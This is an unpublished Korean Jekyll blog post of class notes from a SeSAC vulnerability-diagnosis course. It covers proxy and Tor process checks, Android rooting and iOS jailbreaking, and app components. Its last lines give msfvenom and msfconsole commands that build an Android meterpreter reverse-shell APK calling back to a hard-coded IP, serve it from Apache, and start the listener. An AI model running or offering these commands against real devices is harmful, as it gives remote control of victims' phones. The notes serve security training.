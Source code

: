 ```yaml
---
layout: post
title: 취약점 진단 및 대응 실무 1日 / SeSAC 성동캠퍼스1기
description: >
  [클라우드 기반의 모빌리티 융합보안 과정] 취약점 진단 및 대응 실무 1日차 수업 정리한 내용입니다.
#image: /assets/img/blog/cover-4.jpg
comments: true
#sitemap: false
published : false
categories: [study,security-vulnerability]
tags: [sesac,cloud,skshieldus,security-vulnerability]
related_posts:
#  - _posts/study/python/2023-10-31-day2.md
#  - _posts/study/python/2023-11-01-day3.md
#  - _posts/study/python/2023-11-02-day4.md
---
```

* toc
{:toc}

<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/' frameborder='0' allowfullscreen></iframe></div>

## 취약점 진단 및 대응 실무 / 4주차 1일자 수업

### 1. 

#### 1-1. 



<!-- 우회하는 목적? 익명성
proxy 대리인

tasklist | findstr tor
netstat -ano | findstr  pid


222.236.64.200
https://mocharoll.tistory.com/15
https://rednooby.tistory.com/33


[AOS]

일반 사용자 권한으로 앱이 동작
샌드박스에 의해 보호

root 관리자 권한으로 앱을 동작
샌드박스 보호 깨짐

루팅(일반 사용자가 루트 권한으로 동작)

[ios]

아이폰은 루트 사용자로 시작하지만 샌드박스에 의해 
다른 앱에 침투를 못함. jailbreaking 탈옥

액티비티 - 사용자와 상호 작용 위한 진입점
	사용자 인터페이스를 포함한 화면 하나를 나타냄.
서비스 - 백그라운드와 포그라운드 구분

jvm, dvm, art 컴파일 과정


msfvenom -p android/meterpreter/reverse_tcp lhost=210.178.125.219 lport=4444 R > 1120.apk
sudo cp  ./1120.apk /var/www/html
apache2 restart
msfconsole -> use exploit/multi/handler -> set payload android/meterpreter/reverse_tcp -> set lhost ip -> lport -> set exitonsession false
-> exploit -j ->  -->
